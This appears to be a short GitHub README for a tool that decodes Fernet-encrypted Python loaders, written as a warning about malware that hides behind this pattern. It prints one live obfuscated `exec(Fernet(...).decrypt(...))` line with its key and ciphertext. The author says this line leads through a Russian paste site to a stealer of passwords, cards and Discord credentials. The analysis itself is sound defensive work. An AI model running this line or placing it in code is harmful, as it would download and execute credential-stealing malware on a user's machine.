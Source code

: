 ## fernet decrypter
this code is simply to decode any type of fernet code that would usually run malware on your computer using python.

## example of malicious code
`;exec(Fernet(b'q7MBuNUXpnt4GH9rHx3rNM1_HFsACuJIk1ZCLPBpU7I=').decrypt(b'gAAAAABk8g4eRFjyGDEmrLhaqqcXsILFNwp4eMaESVA1JWnfoVNhhSPBV_1ngtqebygT9MrIQ95jI1aR1fTfmknlOBY_bumaE8dAZ4WotYGKn0K-cRje6R3Ny4G75lRs8bgV5vv50fD0DtiWTKVsT4VP_FeUHA3so_StnOnG-rgPUWkIgiaX9UdRExOsX0eSqzHxP-88zENWuWdYNOflCmEDVdYOhuxYSg=='))`

if we break this code down it shows the normal python type of execution which is using a fernet key and an encrypted message to decoded a message using fernet library. when this code is ran through the decrypter it prints out a website `https://bananasquad.ru/paste`. when entering this site it shows again the same method of execution but now with a much longer encrypted message which when decoded shows a malicious python code that will steal every data on your computer such as passwords, credit card, discord credentials and so on. after downloading the stealer file (look in example stealer/stealer.py) it reruns the fernet request with a new token and key.

at this point im to lazy to explain further on but in conclusion you should always look out for this type of method for execution.